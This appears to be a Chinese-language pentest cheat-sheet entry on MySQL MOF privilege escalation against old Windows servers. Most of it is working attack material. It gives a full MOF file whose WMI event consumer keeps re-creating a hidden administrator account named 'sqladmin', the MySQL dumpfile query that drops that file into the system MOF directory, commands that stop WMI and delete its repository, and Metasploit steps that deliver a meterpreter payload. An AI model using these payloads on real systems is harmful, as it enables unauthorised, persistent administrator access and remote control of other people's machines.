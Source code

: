 ### MOF 提权

MOF提权的条件要求十分严苛:
1. windows 03 及以下版本
2. mysql 启动身份具有权限去读写 c:/windows/system32/wbem/mof 目录
3. secure-file-priv 参数不为 null

```ini
#pragma namespace("\\.\root\subscription")

instance of __EventFilter as
{
EventNamespace = "Root\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\") WSH.run(\"net.exe user sqladmin admin /add&&net.exe localgroup administrators sqladmin /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = ;
Filter = ;
};
```
1. 保存为 1.mof,然后 mysql 执行:`select load_file('D:/wwwroot/1.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';`
2. mof 被执行的话,会帮我们添加一个叫 sqladmin 的用户.

**关于 Mof 提权的弊端**

我们提权成功后,就算被删号,mof 也会在五秒内将原账号重建,那么这给我们退出测试造成了很大的困扰,所以谨慎使用.那么我们如何删掉我们的入侵账号呢？
```
net stop winmgmt
del c:/windows/system32/wbem/repository
net start winmgmt
```

- MSF 模块
    ```bash
    use exploit/windows/mysql/mysql_mof
    set RHOSTS [ip]
    set USERNAME [user]
    set PASSWORD [pass]
    set payload windows/meterpreter/bind_tcp
    set RHOST [ip]
    set LPORT 4444
    exploit
    ```
